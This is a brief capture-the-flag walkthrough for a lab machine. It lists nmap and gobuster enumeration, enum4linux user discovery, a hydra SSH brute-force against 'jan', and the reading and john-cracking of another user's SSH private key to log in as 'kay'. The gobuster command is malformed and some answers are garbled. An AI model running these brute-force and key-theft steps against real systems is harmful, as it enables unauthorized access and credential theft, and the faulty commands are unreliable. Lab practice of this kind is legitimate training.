 Find the services exposed by the machine?

nmap -sC -sV <machine ip address> 

What is the name of the hidden directory on the web server(enter name without /)?

gobuster dir -w <machine ip address> -w <wordlist of your choice>

User brute-forcing to find the username & password?

enum4linux -e <machine ip address> 

What is the username?

jan

What is the password?

hydra -l jan -P rockyou.txt ssh://<machine ip address>

What service do you use to access the server(answer in abbreviation in all caps)?

SSH

Enumerate the machine to find any vectors for privilege escalation

cd /home/kay/.ssh
ls -la
cat id_rsa

What is the name of the other user you found(all lower case)?

kay

If you have found another user, what can you do with this information?

we have already login in 

What is the final password you obtain?

cat id_rsa
chmod 600 id_rsa
we copy the private rsa key 
/usr/share/john/ssh2john.py id_rsa > hash.txt
john --wordlist=rockyou.txt hash.txt 
ssh -i id_rsa kay@<machine ip address>
ls 
cat pass.bak 
